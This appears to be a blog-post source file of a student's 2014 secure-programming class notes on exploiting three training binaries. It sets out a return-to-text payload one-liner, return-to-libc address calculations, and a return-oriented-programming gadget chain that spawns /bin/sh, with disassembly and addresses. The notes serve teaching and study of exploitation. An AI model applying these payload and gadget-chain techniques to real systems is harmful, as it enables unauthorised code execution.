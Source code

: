 ```yaml
---
layout: post
title: 'Secure Programming 2014-11-04'
category: note
slug: secure-programming-20141104
---
```

2014/11/04 Secure Programming Class Note

## foo\_4

Training for "return to text" attack.

-  binsh: 0x0804a030, but actual address is at 0x08048640.
-  system: 0x080483e0

-  `print 'a'*24 + '\xe0\x83\x04\x08' + 'aaaa' + '\x40\x86\x04\x08'`

## foo\_5

Training for "return to libc" attack.

Notice: libc.so is provided

-  `objdump -d libc.so`
   -  00019970 \<__libc_start_main\>:
   -  0003fc40 \<__libc_system\>:
      -  offset: 262d0

Example:

Function: libc_start_main's address is :  0xf75f5970

Function: libc_system's address is : 0xf75f5970 + 0x262d0 = 0xf761bc40

-  `objdump -R foo_5`
   -  0804a01c R_386_JUMP_SLOT   __libc_start_main
-  0804a02c \<binsh\>:
   -  actual address: 08048620

## foo\_6

Training for "return-oriented programming" attack.

-  int 0x80
-  eax: call what kind of system call. See reference for Linux system call
   table.  In this problem we want to call sys_execve, so we should use "11" for
   eax.
-  ebx, ecx: arguments for system call. In this case we put the address of
   "/bin/sh" which is 0x080be568 into ebx and no need of ecx.
-  remember the number of pops, smash the stack

### Gadget 1

-  first gadget: 0x080594ac
-  reset eax to 0 by XOR itself
-  value for `pop ebx`: 0x080be568 (/bin/sh)
-  return address of first gadget: 0x0805cc5c

```nasm
80594ac:       31 c0                   xor    eax,eax
80594ae:       5b                      pop    ebx
80594af:       c3                      ret
```

### Gadget 2

-  second gadget: 0x0805cc5c
-  garbage value for `pop edi`: aaaa
-  return address of second gadget: 0x0805cc5c
-  repeat 11 times to make eax = 0x0000000b
-  last return address of second gadget: 0x0806f0e0

```nasm
805cc5c:       40                      inc    eax
805cc5d:       5f                      pop    edi
805cc5e:       c3                      ret
```

### Gadget 3

third gadget: 0x0806f0e0

```nasm
806f0e0:       cd 80                   int    0x80
806f0e2:       c3                      ret
```

### Failed Gadget

Program received signal SIGSEGV in 0x080db8ce. Still don't know why :(

```nasm
80db8cd:       40                      inc    eax
80db8ce:       02 af 0a 0e 0c 41       add    ch,BYTE PTR [edi+0x410c0e0a]
80db8d4:       c3                      ret
```

Cannot use `pop eax` because 0x0000000b contains 00 which is null. It will
terminate the input string unexpectedly.

```nasm
80e205d:  58                      pop    eax
80e205e:  c3                      ret
```

## Reference

-  [Linux System Call Table](http://docs.cs.up.ac.za/programming/asm/derick_tut/syscalls.html)
